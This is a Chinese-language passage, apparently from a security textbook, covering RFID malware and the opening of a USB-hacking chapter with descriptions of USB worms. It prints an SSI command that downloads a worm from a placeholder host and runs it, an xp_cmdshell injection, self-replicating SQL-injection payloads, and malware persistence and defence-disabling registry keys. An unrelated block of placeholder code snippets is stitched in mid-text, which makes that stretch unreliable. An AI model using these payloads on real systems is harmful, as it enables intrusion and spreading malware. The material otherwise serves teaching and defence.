`RFID Guardian` 通过以下方式管理 RFID 标签密钥：要么通过安全通道显式传输密钥信息，要么允许消费者通过用户界面手动输入密钥值。消费者还可以使用它定期重新生成标签密钥、重新加密标签数据以及刷新标签伪名列表。

如果 RFID 标签无法直接验证 RFID 读取器，`RFID Guardian` 会验证读取器，并允许来自已验证 RFID 读取器的 RFID 查询。

### 临时停用

可以在结账时禁用 RFID 标签以保护其免受威胁。标签内机制也可用于标签停用。`EPC` 全局标签具有受密码保护的功能，可以永久禁用标签。更昂贵的标签具有受密码保护的功能，允许标签暂时禁用，并在威胁解除后重新激活。

### 其他技术

存在多种技术可用于保护 RFID 设备免受攻击。通过更改 RFID 标签的外显伪名（RFID 标签在查询时呈现的信息，类似于无线接入点广播的 `SSID`），标签可以防止设备未经授权的访问。可信 RFID 读取器或标签内的伪名生成器会定期刷新伪名。

## RFID 恶意软件

恶意软件是破坏和干扰计算机系统的有害软件。当黑客出于非法目的使用有效的 RFID 标签时，RFID 恶意软件会通过 RFID 标签传输和执行。

如果 RFID 软件包含漏洞，RFID 标签可能会感染病毒。当读取器扫描受感染的标签时，它可能会利用该漏洞。

RFID 恶意软件分为三类：

1. RFID 蠕虫：RFID 蠕虫滥用网络连接进行自我复制。它们通过攻击在线 RFID 服务和标签传播。RFID 蠕虫代码导致无心的 RFID 服务器从远程位置下载并执行文件。这些文件随后作为基于 Internet 的恶意软件与 RFID 中间件服务器协同工作。
2. RFID 病毒：RFID 病毒将受感染的代码独立自我复制到新的 RFID 标签，无需网络连接。这些病毒没有有效载荷，因此后端 RFID 系统的运作会被修改或中断。如果受感染的 RFID 标签通过读取器向集中式管理系统传递信息，它们也可能感染其他 RFID 标签、读取器和控制系统。
3. RFID 利用：RFID 利用是针对 RFID 系统中易受黑客攻击部分的有害 RFID 标签数据。当 RFID 读取器扫描标签时，它预期以可靠的格式获取信息。攻击者可以精心制作格式和内容未预期的数据，并以此破坏 RFID 读取器的软件和数据库。

## RFID 蠕虫

蠕虫无需任何用户活动即可在网络上自我传播。蠕虫带有有效载荷；它们执行诸如删除文件、安装软件补丁和通过电子邮件发送信息等操作。RFID 蠕虫通过利用 RFID 服务中的安全漏洞进行传播。整个 RFID 蠕虫无法放置在标签中。因此，蠕虫的一部分放置在标签上，当计算机连接到 Internet 时，蠕虫的其余部分会被下载。二进制代码或 shell 命令（存在于标签中）会被下载。蠕虫被执行，目标是 RFID 中间件。

以下 shell 命令使用 SQL Server 下载并执行蠕虫：

```
Apple>; EXEC Master..xp_cmdshell 'shell commands';
```

以下 shell 命令使用 SSI 在 Linux 中下载并执行一个蠕虫：

```
<!--#exec cmd="wget http://ip/worm -O /tmp/worm;\nchmod +x /tmp/worm; /tmp/worm"-->
```

此 shell 命令执行的操作与 Windows 示例相同。然而，Linux 上的可执行文件必须设置可执行权限位；为此，额外包含了一条语句以启用该权限位。

## RFID 病毒


病毒会复制自身并可能执行有效载荷。为了自我复制，RFID 病毒需要一个数据库，并可能使用自引用查询或 Quine 进行复制。

### 使用自引用查询进行复制

病毒使用数据库系统获取当前正在运行的查询，用于系统管理。病毒可以使用单个查询或多个查询。单查询病毒需要数据库支持的功能较少，但 SQL 代码无法作为有效载荷携带。多查询病毒需要受支持的数据库，并且 SQL 代码可以作为有效载荷携带。

为了使病毒正常工作，标签内容不应从阅读器中逃逸。为了处理病毒的复制，中间件中的数据库必须能够发送 `GetCurrentQuery`。

当扫描标签时，此查询将内容加载到数据库：

```
UPDATE ContainerContents SET OldContents='$contents$' WHERE TagID='*id$*
```

标签的 ID 和内容被插入到标记位置。标签中的内容应以安全的方式逃逸或上传。否则，攻击者会在内容字段中插入单引号并修改查询，然后该病毒会被复制到新内容（这种攻击基于 SQL 注入攻击）。当另一个标签的内容字段被更新时，病毒会被复制到未受影响的标签，从而影响更多系统。

#### 单查询

攻击可以使用单个查询执行，如以下利用代码所示：

```
'Apples', NewContents=SUBSTR(GetCurrentQuery (),43,57) - UPDATE ContainerContents SET OldContents='Apples', NewContents=SUBSTR(GetCurrentQuery (),43,57) -- WHERE TagID='123'
```

#### 多查询

相同的攻击在以下利用代码中执行，该代码使用多个查询：

```
'Apples'; UPDATE ContainerContents SET NewContents=NewContents || '$%' || GetCurrentQuery () || '$%payload$%; --/*$%payload$ --'
```

### 使用 Quine 进行复制

Quine 是一种将其自身源代码作为输出产生的程序。它将自己的源代码复制到数据库中，然后稍后复制到标签中。Quine 允许执行有效载荷的 SQL 代码。对于这些病毒成功而言，需要数据库 API，这些 API 允许通过单次 API 函数调用执行多个查询。API 应允许按指定顺序输入注释以防止错误。

当扫描标签时，此查询将内容加载到数据库：

```
UPDATE ContainerContents SET OldContents='$contents$' WHERE TagID='*id$*
```

标签中的内容应正确逃逸或上传。否则，攻击者会在内容字段中插入单引号并修改查询，然后该病毒会被复制到新内容。当标签的内容字段被更新时，病毒会被复制到该标签，同时影响其他系统。

以下利用代码展示了该病毒的 MySQL 形式：

```
'$content$' WHERE TagID='*id$'; SET @a='UPDATE ContainerContents SET NewContents=concat(\'%content$\\\\' WHERE TagID=\\\\'*$id$'\\\\'; SET @a=',\' , QUOTE(@a), \' , \' , @a); $payload$; --/; UPDATE ContainerContents SET NewContents=concat('$content$' WHERE TagID='*$id$'); SET @a=', QUOTE(@a), \' , \' , @a); $payload$; --'
```

第一行只是原始查询的延续；它包含一个用于开始 SQL 注入的引号。实际的病毒从分号后开始。在第二行中，创建并初始化了一个名为 `"@s"` 的变量。它以文本形式包含第三行的代码。

### RFID 漏洞利用

RFID 漏洞利用包括 SQL 注入、客户端脚本和缓冲区溢出。

#### SQL 注入

RFID 系统使用数据库来存储信息，这些信息可以从标签中读取。从标签读取的数据应由中间件正确处理。否则，执行标签上的 SQL 代码可能会利用数据库。这被称为 SQL 注入。

#### 客户端脚本

用户界面和查询数据库由中间件系统使用基于 Web 的组件提供。Web 浏览器显示直接或间接通过数据库引发的攻击。现代 Web 浏览器具有动态特性，这些特性被滥用于在标签上编写 JavaScript 代码。这被称为客户端脚本。

#### 缓冲区溢出

如果从 RFID 标签的有限内存中读取了过多数据，就会发生缓冲区溢出。将 RFID 阅读器接口与中间件绑定的代码是用低级语言（如 C 或 C++）编写的，这些语言容易受到缓冲区溢出的影响。

### RFID 黑客工具

RFID 黑客工具 `RFDump` 可用于利用 RFID 标签信息。

#### RFDump

`RFDump` 是一个后端 GPL（通用公共许可证）工具，它直接与任何 RFID ISO 阅读器配合工作，使存储在 RFID 标签上的内容可访问。它可以读取并显示 RFID 标签内的所有元数据（标签 ID、标签类型和制造商）。用户数据存储器也可以通过文本或十六进制编辑器显示和修改。此外，集成的 cookie 功能演示了公司如何利用 RFID 技术监视客户是多么容易。它适用于 ACG Multi-Tag Reader 或类似的读卡器硬件。

图 6-1 展示了 `RFDump` 工具的界面。


图 6-1 `RFDump` 显示 RFID 标签内的元数据信息。

### RFID 安全措施

#### 管理控制

管理控制通常涉及风险评估、系统规划和系统采购，以及安全认证、认可和支持评估。

#### RFID 使用策略

- **优点：** 该策略为许多其他安全控制建立了框架。它提供了管理层传达其对 RFID 系统及其安全期望的渠道。它使管理层能够对不遵守策略的个人或实体采取法律或纪律行动。

- **缺点：** 策略的存在并不能确保对策略的遵守。策略需要与适当的操作和技术控制的实施和强制相结合才能有效。

#### 信息安全策略

控制：信息安全策略描述了实现使用策略高级别安全目标的方针。与 RFID 相关的安全策略应涵盖每个 RFID 子系统，包括企业中的网络、数据库和应用程序安全以及跨企业子系统。它们不应仅限于 RF 子系统中标签和阅读器的安全。

RFID 系统的安全策略应解决以下问题：

- 对 RFID 信息的访问控制，特别是 RFID 分析系统数据库中包含的记录

- 边界保护，包括 RF 子系统与企业子系统之间、以及企业子系统与公共网络或外网之间网络流量的端口和协议限制

- 密码管理，特别是标签的访问、锁定和终止密码的生成、分发和存储

- 阅读器和中间件的管理系统安全，包括 SNMP 读/写社区字符串的使用和保护

- 系统管理员和运营商的 RFID 安全培训

- 相关密码系统的管理，包括认证机构和密钥管理

**优点：** 精心制定的安全策略管理着与使用 RFID 技术相关的业务风险的缓解。这些策略为个人设计、实施、使用和维护 RFID 系统提供了要求和指南。例如，IT 策略有助于设计 RFID 系统或采购系统组件的人员做出适当决策。同样，它们有助于系统管理员正确实施和配置软件及相关网络组件。

**缺点：** 策略的存在并不能确保对策略的遵守。策略需要与适当的操作和技术控制的实施和强制相结合才能有效。

#### 与外部组织的协议

**控制：** 当与 RFID 系统相关的数据需要在组织边界之间共享时，参与组织之间的正式协议可以明确每个组织的角色和责任，在某些情况下还包括法律责任。这些正式协议通常记录为

**协议备忘录 (MOA)** 或 **谅解备忘录 (MOU)**。`MOU` 或 `MOA` 规定了将使用的网络连接和认证机制、要共享的数据，以及数据在传输和静态状态下应受到保护的方式。它还可能涉及对供应商、分包商及其他第三方在访问系统程度方面的控制措施。

如果跨企业应用需要跨组织共享标签密码，则 `MOU` 或 `MOA` 应规定这些密码的生成、存储和共享方式。备忘录可以指定参与组织为保护密码而必须实施的 IT 安全控制措施，例如认证方法、访问控制或加密技术。

**优点**：拥有 `MOA` 或 `MOU` 可显著减少后续误解和安全漏洞的可能性。它们使签约方能够沟通各自的安全需求，同时也能认识到促成其合作开发和RFID 系统使用业务合作伙伴关系的益处。

**缺点**：如果没有完全访问权限，监控外部组织执行协议的情况是困难的，而完全访问权限通常是不可能的。因此，违规行为可能在未被检测到的情况下发生。如果签约方同意聘请第三方进行此类审计，则可以通过独立审计来降低此风险。

#### 最小化存储在标签上的敏感数据

控制措施：与其将敏感数据放在标签上，不如将数据存储在企业内部的安全子系统中，并使用标签的唯一标识符进行检索。

**适用性**：使用具有内置内存的标签，并处理被视为敏感的数据，或可能与其他数据结合以推断敏感信息的应用程序。


进入`/path/to/xxx`目录，找到`xxx.json`。

在表达式`cvar = avar + bvar`中，加法运算符（`+`）将`avar`与`bvar`相加，得到它们的和`cvar`

在`List.of(arg0, arg1, arg2)`中，`List`接口的工厂方法`of()`接受一系列的元素，返回包含它们的只读列表。

之后我们这样调用`cmd`命令：`cmd arg0 arg1 arg2`。

```
if (condVar > someVal) {console.log("xxx")}
```


1. 按照以下步骤操作：
    - 导航到学生资源中心的第 6 章。
    - 打开标题为 "Privacy Protection in RFID.pdf" 的文档并阅读内容。

2. 按照以下步骤操作：
    - 导航到学生资源中心的第 6 章。
    - 打开标题为 "RFID malware Design principles and examples.pdf" 的文档并阅读内容。

3. 按照以下步骤操作：
    - 导航到学生资源中心的第 6 章。
    - 打开标题为 "Understanding RFID Challenges and Risks.pdf" 的文档并阅读内容。

4. 按照以下步骤操作：
    - 导航到学生资源中心的第 6 章。
    - 打开标题为 "RFID Security and Privacy.pdf" 的文档并阅读内容。

### 黑客攻击 USB 设备

#### 目标

完成本章后，您应该能够：
- 理解 USB 设备
- 理解 USB 攻击
- 理解影响 USB 设备的病毒和蠕虫
- 理解 USB 黑客工具
- 理解 USB 安全工具
- 理解针对 USB 黑客攻击的反制措施

#### 关键术语

- `EEPROM` 电可擦除可编程只读存储器 USB 设备中使用的内存类型
- `外设` 物理输入/输出设备
- `USB` 通用串行总线 设备 一种可插入 USB 端口的外设类型
- `USB 端口` 一种即插即用硬件接口，用于将 USB 外设（如磁盘驱动器、打印机、内存棒、鼠标、键盘和游戏杆）连接到计算机

#### 案例示例

2007 年 5 月，专家警告计算机用户注意一种通过 USB 驱动器传播的新蠕虫。名为 SillyFD-AA 的蠕虫安装到计算机系统中，在 Internet Explorer 中显示 “Hacked by lBYTE” 的消息，并在诸如 USB 驱动器和软盘等可移动设备上安装 `AutoRun.inf` 文件。此蠕虫可以充当后门并将恶意代码插入计算机。一旦受感染的 USB 设备连接到计算机，蠕虫会自动安装并传播。

提醒计算机用户不要将未知设备插入他们的计算机，因为这些设备可能包含恶意代码。用户还被建议关闭 AutoRun

在 Windows 操作系统中选择一个选项，以避免蠕虫自动运行的可能性，并防止其重复该过程以进一步传播。

## 破解 USB 设备简介

本章专注于破解 USB 设备。首先，它介绍了 USB 设备的一般概述及其工作原理。然后，讨论了针对 USB 设备发起的不同类型攻击。本章还涵盖了黑客用于攻击 USB 设备的工具，以及管理员可用于保护这些设备的工具。最后，它列举了用户可以采取的一些对策来保护其设备。

## USB 设备简介

`USB` 通用串行总线 设备是一种外设 物理输入/输出设备，可插入 `USB` 端口。`USB` 端口是一种即插即用硬件接口，用于将这些外设（如磁盘驱动器、打印机、记忆棒、鼠标、键盘和游戏手柄）连接到计算机。它提供了一种单一、标准化的方法将设备连接到计算机，并允许这些设备与主机计算机通信。USB 外设通常是热插拔的，这意味着可以在不重新启动或关闭计算机的情况下连接和断开它们。

当 USB 设备连接到计算机时，系统会确定 USB 设备的速度，并自动识别和配置该设备。支持的数据传输速率将在下面部分进行说明。

### USB 传输速率

不同版本的 USB 支持不同的数据传输速率。`USB 1.1` 只能以最大 `12 Mbit/s` 的速率传输数据，而 `USB 3.0` 可以以 `4.8 Gbit/s` 的速率传输数据。USB 支持的数据传输速率如下：

- 低速 `1.1, 2.0`：以 `1.5 Mbit/s` `187 kB/s` 的速率传输数据。
- 全速 `1.1, 2.0`：以 `12 Mbit/s` `1.5 MB/s` 的速率传输数据。
- 高速 `2.0`：以 `480 Mbit/s` `60 MB/s` 的速率传输数据。
- 超速 `3.0`：以 `4.8 Gbit/s` `600 MB/s` 的速率传输数据。

### USB 攻击

有几种类型的 USB 攻击。本节将解释电气攻击、软件攻击和 Windows 缓冲区溢出攻击。

#### 电气攻击

USB 驱动器存在一个常见的设计缺陷：在串行 `EEPROM` 中不当存储密码值。USB 设备由一个支持 USB 的微处理器、外部存储器和粘合电路组成。存储器是 `EEPROM`，其读写所需的最小电路；因此，它主要用在工程行业。然而，它是不安全的，并且没有为使用它的设备提供安全性。因此，设备 programmers 被附加到使用串行 `EEPROM` 的设备上，通过限制不当的访问来提供安全性。

由于这个缺陷，攻击者可以使用电气攻击，这种攻击是在物理访问设备电路板时对 USB 驱动器进行的，以提取所有数据，包括私人信息。攻击者的目标是窃取存储在设备上的私人数据，这些数据本应由合法用户的 PIN 和密码保护。在攻击过程中，存储在 `EEPROM` 中的密码值被更改，数据很容易被提取。黑客完成后，攻击者将密码重置为原始密码，从而确保 USB 设备的所有者不会察觉到任何可疑活动。

#### 软件攻击

软件攻击是一种非侵入式攻击。在这种攻击中，USB 设备不会被篡改或损坏。相反，软件攻击利用设备的正常操作条件，其目的是找到产品中软件或固件实现的缺陷。

供应商提供的软件开发工具包包括源代码、头文件以及关于 USB 设备设计和结构的信息。这些信息存储在设备的串行 `EEPROM` 上，由于设计缺陷，允许访问私人信息。在发起软件攻击时，攻击者试图通过使用自定义设备驱动程序和商用 USB 协议分析器来检查 USB 设备与主机计算机之间的通信通道，从而获取这些私人信息。攻击者可以使用这些信息来分析和确定成功攻击的可能性，然后使用以下方法之一：

- 尝试暴力破解密码：通过分析并确定管理员的 `MKEY` 值或真正的用户密码或 PIN 来访问 USB 驱动器。
- 向 USB 驱动器发送错误且已知的错误 USB 数据包：由于设计缺陷，USB 驱动器可能会允许传输受保护内存区域的内容。

攻击完成后，结果可以复制到其他设备。

## Windows 缓冲区溢出攻击

插入装有 32 位 Windows 操作系统（如 `Windows Vista`、`XP` 和 `2000`）的计算机的 USB 设备面临另一种攻击的危险。USB 设备驱动程序中的缓冲区溢出漏洞可能允许攻击者绕过 Windows 安全并获取主机机器上的管理员访问权限。了解这些漏洞的攻击者可以编程一个 USB 驱动器，使其伪装成使用易受漏洞影响的驱动程序的设备类型。

完成此操作后，攻击者将设备插入主机系统，当有缺陷的驱动程序被加载时，攻击者将获取存储在设备串行 `EEPROM` 上的默认 PIN 和合法用户的凭据。攻击者可以使用这些信息利用系统并访问锁定的工作站。

这些攻击需要对系统的物理访问，可以通过使用 USB 安全工具来预防，这些工具可以识别当 USB 设备插入主机计算机或其网络时，并阻止利用。

## 病毒和蠕虫

以下部分介绍影响 USB 设备的一些病毒和蠕虫。

### 病毒：W32/Madang-Fam

`W32/Madang-Fam` 是一类感染 Windows 平台的病毒，可以通过可移动存储设备进行传播。这些病毒搜索所有驱动器和连接的网络共享以定位带有 `EXE` 或 `SCR` 扩展名的文件。这些病毒连接到远程网站并下载其他恶意代码。这些文件中的某些可能会将感染病毒的 `Serverx.exe` 文件放入 Windows 系统文件夹中。这些病毒通过创建以下注册表项来修改系统注册表，以便在启动时运行 `Serverx.exe` 文件：

```
"Serverx" = <System>\Serverx.exe
```

这些病毒还可能试图运行 `<System>\setupx.exe` 和 `<System>\Update.exe` 文件，或者将自己注入内核或当前正在运行的其他进程中。

### 蠕虫和病毒：W32/Hasnot-A

`W32/Hasnot-A` 是一种针对 Windows 平台的蠕虫和伴随病毒，通过共享网络文件和可移动存储设备 包括 USB 驱动器 进行传播。该蠕虫试图将自己复制到可访问受感染机器的可写设备中。它通过将自己作为副本附加到文件或文件夹的原始名称来隐藏文件和文件夹。它将自己复制到根驱动器文件夹作为 `Skynet.exe`，并添加一个 `Autorun.inf` 文件。一旦驱动器被挂载，`Autorun.inf` 文件被设计为运行 `Skynet.exe`，从而传播蠕虫。当首次运行时，此蠕虫将自己复制到以下文件：

- `<Root>\Dokumente und Einstellungen.exe`
- `<Root>\Documenti e Impostazioni.exe`
- `<Root>\Documents and Settings.000.exe`
- `<Root>\Documents and Settings.exe`
- `<User>\Application Data\Explorer.exe`
- `<User>\Application Data\Microsoft\WinNT.com`
- `<Favorites>\svchost.exe`
- `<Root>\Games.exe`
- `<Root>\Mijn Documenten.exe`
- `<Root>\My Downloads.exe`


- `<Root>\My Music.exe`

- `<Root>\My Shared Folder.exe`

- `<Root>\Program Files.exe`

- `<Root>\Programma's.exe`

- `<Root>\Programme.exe`

- `<Root>\Programmi.exe`

- `<Root>\Programs.exe`

- `<Root>\SkyNet.exe`

- `<Root>\System Volume Information.exe`

- `<Root>\Temp.exe`

- `<Root>\Tmp.exe`

- `<Root>\WinNT.exe`

- `<Root>\inetpub.exe`

- `<Root>\install.exe`

- `<Root>\recycled.exe`

- `<Root>\windows.exe`

- `<Windows>\_default.pif`

- `<Windows>\svchost.exe`

- `<System>\Explorer.exe`

创建以下注册表项，以便在启动时运行`WinNT.com`和`_default.pif`：

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run\"WinNT" = <User>\Application Data\Microsoft\WinNT.com`

- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Explorer\Run\"Graphics" = <Windows>\_default.pif`

设置以下注册表项以禁用系统软件：

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableTaskMgr" = 1`

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableRegistryTools" = 1`

- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system\"DisableTaskMgr" = 1`

- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system\"DisableRegistryTools" = 1`

`W32/Hasnot-A`还设置以下注册表项：

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoFolderOptions" = 1`

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Non Enum\"{6DFD7C5C-2451-11d3-A299-00C04F8E6FAF}" = 1`

- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Explorer\"NoFolderOptions" = 1`

- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL\"CheckedValue" = 1`

- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\Non Enum\"{6DFD7C5C-2451-11d3-A299-00C04F8E6FAF}" = 1`

## 蠕虫和病毒：W32/Fujacks-AK

`W32/Fujacks-AK`蠕虫和病毒影响 Windows 平台。它通过可用的网络共享和可移动存储设备传播到其他网络计算机。此蠕虫以文件名 `GameSetup.exe` 和 `setup.exe` 进行自我复制，并创建文件 `Autorun.inf` 以确保执行 `setup.exe`。它可以访问 Internet 并通过 HTTP 与远程服务器通信。当此蠕虫第一次运行时，它会将自己复制到以下文件：

- `<System>\drivers\spoclsv.exe`

- `<Root>\setup.exe`

- `<Root>\AutoRun.inf`

创建以下注册表项以在启动时运行 `spoclsv.exe`：

`HKCU\Software\Microsoft\Windows\CurrentVersion\Run\"Svcshare" = <System>\drivers\spoclsv.exe`

它还设置以下注册表项：

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL\"CheckedValue" = 0`

每当此蠕虫找到 EXE 文件时，它会尝试感染它们。如果成功，它将创建 `Desktopp.ini` 文件。此蠕虫可以删除所有共享，包括 Admin$ 共享。

此蠕虫试图通过创建隐藏文件 `Autorun.inf` 并将自身复制到相同位置，将自身复制到可移动驱动器，包括软盘和 USB 驱动器。此 `AutoRun.inf` 文件旨在一旦可移动设备连接到未感染的系统，就立即启动蠕虫。

## 蠕虫和病毒：W32/Fujacks-E

`W32/Fujacks-E` 是一种具有后门功能的病毒和蠕虫，影响 Windows 平台。它针对密码较弱的网络，通过可移动设备和网络共享进行传播，将自身复制到本地和映射的网络驱动器。它使用文件名 `GameSetup.exe` 和 `setup.exe` 进行自我复制。它还创建文件 `Autorun.inf` 以确保执行 `setup.exe`。此蠕虫在后台持续运行，提供一个后门服务器，攻击者利用该服务器获取系统访问权限并控制系统。此外，该蠕虫可以访问 Internet 并通过 HTTP 与远程服务器通信，并可能会更改 HTML 文件。

当此蠕虫第一次执行时，它将自身复制到 `\drivers\spoclsv.exe`。该蠕虫创建以下注册表项以在启动时运行 `spoclsv.exe`：

`HKCU\Software\Microsoft\Windows\CurrentVersion\Run\"Svcshare" = <System>\drivers\spoclsv.exe`

它还设置以下注册表项：

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL\"CheckedValue" = 0`

## 病毒：W32/Dzan-C

`W32/Dzan-C` 是一种影响 Windows 平台的病毒。此病毒通过 USB 设备和软盘等可移动存储设备传播。该病毒在系统所有驱动器中搜索 EXE 文件。当找到 EXE 文件时，病毒将病毒代码附加到可执行文件中，使其大小增加 66,048 字节。然后，每当文件执行时，病毒就会执行。此蠕虫在后台持续运行，提供一个后门服务器，攻击者利用该服务器获取系统访问权限并控制系统。

- `<Windows>\inetinfo.exe`

- `<System>\1021\services.exe`

文件 `<System>\1021\services.exe` 被注册为名为 `services` 的新系统驱动程序服务。其显示名称为“Themes Plug and Play”，并在系统启动时自动执行。病毒在 `HKLM\SYSTEM\CurrentControlSet\Services\services` 下创建注册表项以注册此服务。

## 蠕虫：W32/SillyFD-AA

`W32/SillyFD-AA` 是一种影响 Windows 平台的蠕虫，通过软盘和 USB 设备等可移动存储设备传播。它试图在可移动驱动器上创建名为 `Autorun.inf` 的隐藏文件，并将自身以隐藏文件名 `<Root>\handydriver.exe` 复制到可移动驱动器。`Autorun.inf` 文件旨在每当设备连接到未感染的系统时启动该蠕虫。然后该蠕虫将自身复制到以下列出的位置：

- `<Root>\kernel32.exe`

- `<Windows>\regedit.exe`

- `<Windows>\pchealth\helpctr\Binaries\msconfig.exe`

- `<System>\system.ini.exe`

- `<System>\wininit.exe`

- `<System>\winsystem.exe`

- `<System>\cmd.exe`

- `<System>\taskmgr.exe`

设置以下注册表项以在启动时运行此蠕虫：


- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\"UserInit" = <System>\user-init.exe, <System>\system.ini.exe`
- `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\"Wininit" = <System>\wininit.exe`

还设置以下注册表项：

- `HKCU\Software\Microsoft\Internet Explorer\Main\"Window Title" = Hacked by 1BYTE`
- `HKCU\Software\Microsoft\"ServicePack" = 1.2`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\"SearchHidden" = 0`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\"SearchSystemDirs" = 0`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoFolderOptions" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableRegistry" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableRegistryTools" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableTaskMgr" = 1`
- `HKCU\Software\Microsoft\"nFlag" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\"Hidden" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\"HideFileExt" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\"ShowSuperHidden" = 0`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\"SuperHidden" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"NoFolderTypeAutoRun" = 0`
- `HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\"Start" = 1`

## 蠕虫：W32/SillyFDC-BK

W32/SillyFDC-BK 是一种通过可移动共享设备传播的 Windows 蠕虫。执行时，此蠕虫将自身复制到 `<Windows>\krag.exe` 文件并创建文件 `<Root>\Autorun.inf`。文件 `<Root>\Autorun.inf` 旨在当可移动设备连接到未感染的系统时执行该蠕虫。该蠕虫还设置以下注册表项以在启动时运行自身：

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\"Krag" = <Windows>\krag.exe`

## 蠕虫：W32/LiarVB-A

W32/LiarVB-A 蠕虫影响 Windows 平台。此蠕虫通过软盘驱动器和 USB 驱动器等可移动存储设备传播。它将自身复制到驱动器的根文件夹并添加 `Autorun.inf` 文件。`<Root>\Autorun.inf` 文件旨在当可移动驱动器被挂载时启动该蠕虫。在受感染的系统上会留下一个包含有关 AIDS 信息的 HTML 文件以及以下跑马灯：

> 此文件不会对您的计算机造成有害更改。此文件对您的计算机和闪存盘（USB）并不危险。此文件不会干扰您计算机和闪存盘（USB）上的任何数据或文件。所以不要害怕，快乐起来！

此蠕虫将自身复制到以下文件夹：

- `<Open folder>\Folder name.exe`
- `<Root>\BootEx.exe`
- `<Root>\log.exe`
- `<Windows>\ErrorReport.exe`
- `<Windows>\MonitorMission.run`
- `<Windows>\MonitorSetup.exe`
- `<Windows>\SystemMonitor.exe`
- `<Windows>\Win System.exe`
- `<Windows>\WinSystem`
- `<Windows>\WinSystem.exe`
- `<Windows>\WinSystem32.exe`
- `<Windows>\regedif.exe`
- `<System>\WindowsUpdate.exe`
- `<System>\msconfig.exe`
- `<System>\msiexec.exe`
- `<System>\rundll.exe`
- `<System>\WindowsProtection.exe`
- `<System>\msi.dll.exe`
- `<System>\msi.exe`
- `<System>\regedif32.exe`
- `<System>\sccnfig.exe`
- `<System>\winloc.exe`
- `<System>\wa.bdll`
- `<Windows>\windows.exe`

此蠕虫还可能会创建以下两个文件：

- `<System>\oeminfo.ini`
- `<System>\oemlogo.bmp`

蠕虫可能会创建以下注册表项：

- `HKCR*\shell\Scan for Virus\Command\<Root>\windows\MonitorMission.run`
- `HKCR\Folder\shell\Scan for Virus\Command\<Root>\windows\MonitorMission.run`
- `HKCR\Folder\shell\Search\Command\<Root>\windows\MonitorMission.run`
- `HKCU\Software\KyrrentSoft`

## 蠕虫：W32/Hairy-A

W32/Hairy-A 是一种影响 Windows 平台的蠕虫。此蠕虫通过将自身复制到可移动驱动器并创建 `Autorun.inf` 文件，通过软盘和 USB 设备等可移动存储设备传播。当安装此蠕虫时，会创建以下文件：

- `<Root>\HarryPotter-TheDeathlyHallows.doc`
- `<Root>\AutoRun.inf`
- `<Root>\harry potter.txt`
- `<Windows>\Temp\talk.bat`

创建以下注册表项，以便在启动时执行 `talk.bat`：

`HKLMSOFTWARE\Microsoft\Windows\CurrentVersion\Run\"Talk" = <Windows>\Temp\talk.bat`

此蠕虫通过修改以下注册表项的值，更改 Microsoft Internet Explorer 的设置：

- `HKCU\Software\Microsoft\Internet Explorer\Main\`
- `HKCU\Software\Microsoft\Internet Explorer\Main\Start Page`
- `HKLMSOFTWARE\Microsoft\Internet Explorer\Main\Start Page`

通过设置以下注册表项来影响 Internet 安全：

- `HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\`
- `"EnableFirewall" = 0`
- `HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\`
- `"DoNotAllowExceptions" = 0`

通过设置以下注册表项来禁用系统软件：


## 注册表项

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableTaskMgr" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System\"DisableRegistryTools" = 1`
- `HKLMSOFTWARE\Windows\CurrentVersion\Policies\System\"DisableTaskMgr" = 1`

此蠕虫还设置了以下注册表项：

- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoFolderOptions" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoViewContextMenu" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoShellSearchButton" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoFind" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoRun" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"HideClock" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoTrayContextMenu" = 1`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\"NoTrayItemsDisplay" = 1`
- `HKLMSOFTWARE\Windows\CurrentVersion\Policies\Explorer\"NoViewContextMenu" = 1`
